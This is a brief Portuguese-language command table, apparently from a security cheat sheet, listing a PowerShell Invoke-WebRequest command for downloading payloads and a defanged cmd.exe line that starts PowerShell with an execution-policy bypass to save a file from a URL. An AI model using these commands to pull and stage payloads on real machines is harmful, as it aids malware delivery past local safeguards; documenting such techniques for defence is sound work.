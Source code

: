 | COMANDO | DESCRIÇÃO |
|--------------------------------------------|--------------------------------------------------------------------------------------|
| powershell Invoke-webrequest -URI <URL> -outfile <file_location_on_system> | Comando utilizado para download de cargas de uma determinada URL e indicação de path |

| cmd[.]exe /c powershell[.]exe -ExecutionPolicy ByPass -WindowStyle Normal (New-Object System[.]Net[.]WebClient).DownloadFile('<URL>', '<LOCAL A SER SALVO>'); | Comando utilizado para baixar um arquivo via CMD e salvá-lo em um local específico no sistema |

